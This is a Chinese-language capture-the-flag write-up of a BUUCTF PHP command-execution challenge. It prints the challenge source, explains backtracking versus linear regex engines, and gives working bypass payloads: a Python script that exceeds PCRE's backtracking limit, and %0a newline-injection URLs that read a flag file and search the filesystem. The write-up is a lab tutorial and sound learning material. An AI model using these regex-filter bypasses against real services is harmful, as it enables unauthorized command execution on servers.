 # 题目分析

上来要输入JSON格式的命令，尝试一下键名为cmd

![image-20250909155616888](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250909155616888.png)

`{{"cmd":"ls"}}`

可以正常执行,列出文件只有index.php

多次尝试，发现`.*|/;?`符号都被过滤,空格倒是在。`pwd`也被过滤了，这道题过滤的东西挺多的。网上查阅发现别的平台有源码附件的，BUUCTF没给，我们审计一下源码：

# 源码

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

这题的核心是绕过正则。

正则表达式的结构是`^.*(黑名单).*$`

^匹配开头，$匹配结尾，`.*`贪婪匹配

- 对于`^....$`形式的正则，可以用%0a绕过法。
- 对于有贪婪匹配的，可以利用超回溯次数的方法。

# 绕过

## 超回溯次数

超回溯次数顾名思义有一个定好的回溯次数。讲到回溯要先讲讲正则引擎。

什么是正则引擎？就是决定正则匹配的时候如何工作，分为两种：

- ### 回溯引擎（Backtracking Engines）

- ### 非回溯引擎（Non-backtracking Engines）

### 回溯引擎

​	当遇到量词（如 `*`, `+`, `?`, `{m,n}`）或分支选择（`|`）时，引擎会记录多个可能的选择点。如果当前选择的路径最终导致匹配失败，它会**回溯**到上一个选择点，尝试另一条路径，直到找到匹配或所有路径都尝试失败为止。简单来说就是遇到贪婪匹配的量词时候会一直匹配到结尾，再不断回溯。

​	比如`".*"`匹配`"hello" world"`，`.*`会从字符`h`一直匹配到结尾的`"`，这时候正则最后的`"`没字符匹配了，于是开始回溯，这里只需回溯一个字符就ok。但是有可能产生大量回溯，耗尽服务器性能，达到DOS攻击的效果。因此一般会设置一个回溯次数上限，而一旦回溯次数突破这个值就立刻返回Flase，即匹配失败，达到绕过效果。

回溯引擎最常见的实现就是**PCRE(Perl Compatible Regular Expressions)**：Perl、**PHP** (`preg_` 函数)、Python (`re` 模块)、JavaScript、Apache、以及许多其他语言和工具。

**Ruby**、**Java** (`java.util.regex`) 等也使用回溯引擎

### 非回溯引擎

相对的非回溯引擎不会回溯，引擎在扫描字符串时，对于每个字符，它所处的状态是确定的。它从左到右扫描输入文本，每个字符只处理一次，**永不回头**。这是通过状态机实现的，具体原理感兴趣的可以自己查阅。非回溯使得性能不会出现灾难性的下降，匹配时间和输入字符串长度呈线性关系。但是缺点是通常**不支持**许多高级特性，比如捕获组。

常见实现有：

- **大多数Unix工具**： `awk`, `egrep`, `flex`, `lex`。
- **RE2**： 由 Google 开发的高性能正则表达式库，旨在消除灾难性回溯，常用于对安全性和性能要求极高的场景（如 Google Docs）。C++、Go、Ruby 等都有绑定。
- **Rust 的 `regex` crate**： 默认使用基于自动机的引擎，性能极高且安全。



理解原理后，就知道这里可以通过超回溯限制绕过了。php默认最大回溯次数是100万，我们通过在字符串后加上1000000个小写字母

```python
import requests

url = "http://94bd7c78-b08b-4c4a-b7a4-77f3afeec82c.node5.buuoj.cn:81/"
payload = '{"cmd":"ls /","abc":"' + 'a' * 1000000 + '"}'
r = requests.post(url,data={"cmd":payload})
print (r.content.decode())
```

最后的payload最后是`aaaaaaaa...aaa"}`，因为小写字母`a` `"`和`}`都未被过滤，所以在第一个`.*`吃到最后一个字符时，会一直向前回溯，超过100w次从而返回Flase。同时注意GET请求是发不出的，因为url长度限制，后台用$_REQUEST的情况下可以使用POST。

## 利用%0a

原理是没有设置多行模式，即修饰符`m`,那么`^`只会匹配第一行内容。也没有修饰符`s`,`.*`不会匹配换行符%0a

**因为不能匹配到完整的字符串而绕过。**

可用payload如下：

``````
?cmd={%0a"cmd":"/bin/cat /home/rceservice/flag"%0a}
#第一个.*匹配{，然后第一个%0a由黑名单捕获，但是最后的 .* 不能匹配换行符,因此也匹配不到换行后的 }所以不能匹配到完整字符串,返回值为空,完成正则绕过
?cmd=%0a{%0a"cmd":"/bin/cat /home/rceservice/flag"}
?cmd=%0a{"cmd":"/bin/cat /home/rceservice/flag"%0a}
?cmd=%0a{"cmd":"/bin/cat /home/rceservice/flag"}%0a%0a
#这里要两个%0a是因为单行模式$默认你最后的%0a之前的内容才是要传输的内容
``````

注意这里要GET传入，因为要让%0a url解码。

# 结果

源码第一行是`putenv('PATH=/home/rceservice/jail');`

修改了PATH路径，因此我们调用一些命令要用绝对路径，直接find找一下名字带flag的文件。

```
payload = '{"cmd":"/usr/bin/find / -name flag","abc":"' + 'a' * 1000000 + '"}'
```

找到`/home/rceservice/flag`,然后读取即可